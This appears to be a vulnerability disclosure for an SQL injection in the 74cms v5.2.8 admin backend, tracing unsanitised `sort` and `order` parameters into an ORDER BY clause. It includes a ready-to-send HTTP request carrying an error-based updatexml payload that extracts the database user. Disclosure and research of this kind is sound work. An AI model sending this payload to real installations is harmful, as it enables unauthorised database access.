






# 74cms v5.2.8 SQLI

### Detail

The vulnerability is generated by the `_list` method in the `Common/Controller/BackendController.class.php` file, using the `I()` in the `_list` method to receive the `sort` and `order` parameters, and the splicing assignment to `$order_by`.



`$order_by` enters the `SQL` query by splicing, resulting in `SQL` injection.





The `_list` method is called in the `index` method.



Taking `Admin/Controller/AdController.class.php` as an example, the `AdController` class inherits the `BackendController` class and calls `index()` in the `category` method.



### PoC

Log in to the administrator account and send the following request packet.

```
GET /74cms/upload/index.php?m=Admin&c=Ad&a=category&sort=1&order=and+updatexml(0,concat(0x7e,user()),0) HTTP/1.1
Host: [::]
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://[::]/74cms/upload/index.php?m=Admin&c=index&a=index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: XDEBUG_SESSION=PHPSTORM; think_template=default; PHPSESSID=4gibptgp8kflrc0f9sd2t8pfm0; think_language=zh-CN
Connection: close
```

#### success


